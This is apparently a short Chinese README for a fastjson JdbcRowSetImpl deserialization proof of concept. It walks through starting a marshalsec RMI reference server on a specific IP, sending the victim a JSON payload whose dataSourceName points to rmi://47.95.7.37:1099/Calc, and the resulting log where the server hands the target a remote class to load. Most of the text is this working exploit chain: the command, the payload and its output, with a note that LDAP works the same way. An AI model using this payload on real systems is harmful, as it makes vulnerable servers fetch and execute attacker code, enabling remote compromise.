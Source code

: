 # JdbcRowSetImpl poc使用
1.开启RMIServer
2.配置远端codebase
3.运行fastjson漏洞poc

# 提醒
只适用于jdk8u113之前未设限codebase的版本


# 远端使用
远端服务使用命令: `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://47.95.7.37:9870/#Calc`
我将9870端口设置成nginx转发到某个文件夹, 当启动如上命令的时候回显
`Opening JRMP listener on 1099`
给受害者发送payload`"{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://47.95.7.37:1099/Calc\", \"autoCommit\":true}";`
来访问我们的服务器, 由于nginx未说明拦截rmi服务, 所以直接被我们marshalsec.jar接收到， 并回显
```text
Have connection from /42.58.18.50:60061
Reading message...
Is RMI.lookup call for Calc 2
Sending remote classloading stub targeting http://47.95.7.37:9870/Calc.class
```
这个时候使用http协议跳转到我们nginx实现配置的路径去拿恶意类, 回传给调用者
## 同理ldap
